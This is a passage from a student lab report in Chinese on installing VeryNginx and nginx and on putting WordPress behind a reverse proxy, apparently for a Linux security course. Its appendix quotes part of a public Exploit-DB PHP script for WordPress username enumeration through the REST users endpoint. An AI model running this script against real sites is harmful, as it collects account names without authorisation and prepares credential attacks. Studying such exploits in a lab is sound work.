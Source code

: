 
## 4. 遇到的问题

- verynginx的安装

  ​	本次实验在安装verynginx时折腾了很久。按照官网给的安装教程，一开始会报很多缺少依赖的错误，缺少gcc、libpcre3等依赖（完整版本在开头环境配置部分），基本都能搜索解决问题，但是下图这个错误就困扰了我很久。在github中也有相关的issue，基本都是讨论openssl版本的问题，在[这里](https://github.com/openresty/lua-nginx-module/pull/1213)作者提到已经支持openssl1.1.0，所以应该不是openssl版本的问题。

  ​	后来请教老师成功安装的经验，安装时使用libssl1.0-dev而不是libssl-dev。（此处还主动踩了源码编译安装的坑，以后多多注意~）

  ![verynginx-install-error-openssl](D:\workspace\linux-2019-cloud0606\lab5\img\verynginx-install-error-openssl.png)

- nginx安装版本选择

  nginx的安装也没有采用官网上的最新版本，而是采用了14.0版本，官网给的15.0的目录结构和14.0的差异很大（比如没有sites-available和sites-enables文件夹,直接手动建立文件夹添加符号链接还是没配置成功）和很多教程对不上，所以采用了14.0

- 解决wordpress对外提供访问地址是https://wp.sec.cuc.edu.cn ，而不是https://wp.sec.cuc.edu.cn:8888

  ​	wordpress会在数据库中硬编码访问的url，存储的url是在访问wordpress安装界面进行安装时的url，如果在没有开启verynginx前安装了wordpress，之后再配置反向代理，最终访问的url会和预期的不一致，会出现：

  - 访问的url后面带上了端口号
  - 如果wordpress服务后期改为只监听了127.0.0.1，就直接访问不到

  的情况，所以需要注意操作的顺序，最后采用的方法顺序是：

  - 在nginx安装wordpress服务（配置在127.0.0.1:某一端口）

  - 配置verynginx反向代理

  - 经代理访问进行wordprss安装

    这样执行后数据库内硬编码的url如下

      ```bash
      mysql -u wpuser -p 
      use wordpress;
      select * from  wp_options where option_id < 5;
      ```

    ![wp_mysql_url](D:\workspace\linux-2019-cloud0606\lab5\img\wp_mysql_url.png)

## 附录

[WordPress < 4.7.1 - Username Enumeration](https://www.exploit-db.com/exploits/41497/)

```bash
#!usr/bin/php
<?php
 
#Author: Mateus a.k.a Dctor
#fb: fb.com/hatbashbr/
#E-mail: dctoralves@protonmail.ch
#Site: https://mateuslino.tk 
header ('Content-type: text/html; charset=UTF-8');
 
 
$url= "http://localhost/";
$payload="wp-json/wp/v2/users/";
$urli = file_get_contents($url.$payload);
$json = json_decode($urli, true);
if($json){
    echo "*-----------------------------*\n";
foreach($json as $users){
    echo "[*] ID :  |" .$users['id']     ."|\n";
    echo "[*] Name: |" .$users['name']   ."|\n";
    echo "[*] User :|" .$users['slug']   ."|\n";
```